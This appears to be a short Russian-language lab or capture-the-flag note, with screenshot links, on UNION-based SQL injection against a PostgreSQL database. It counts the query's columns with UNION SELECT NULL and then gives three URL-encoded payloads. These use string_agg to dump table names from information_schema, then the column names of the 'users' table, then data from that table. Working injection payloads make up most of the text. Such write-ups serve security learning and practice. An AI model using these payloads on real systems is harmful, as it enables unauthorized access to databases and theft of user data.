С помощью UNION SELECT NULL проверяем количество колонок ( при вводе UNION SELECT NULL,NULL -- появляется ошибка) => 3 колонки
![](../../attachment/Pasted%20image%2020250421122448.png)![](../../attachment/Pasted%20image%2020250421122613.png)

'+UNION+SELECT+string_agg(table_name,','),NULL,NULL+FROM+information_schema.tables--

![](../../attachment/Pasted%20image%2020250421124044.png)

'+UNION+SELECT+string_agg(column_name,','),NULL,NULL+FROM+information_schema.columns+WHERE+table_name='users'--

![](../../attachment/Pasted%20image%2020250421124236.png)

'+UNION+SELECT+string_agg(description,','),NULL,NULL+FROM+users--

![](../../attachment/Pasted%20image%2020250421124353.png)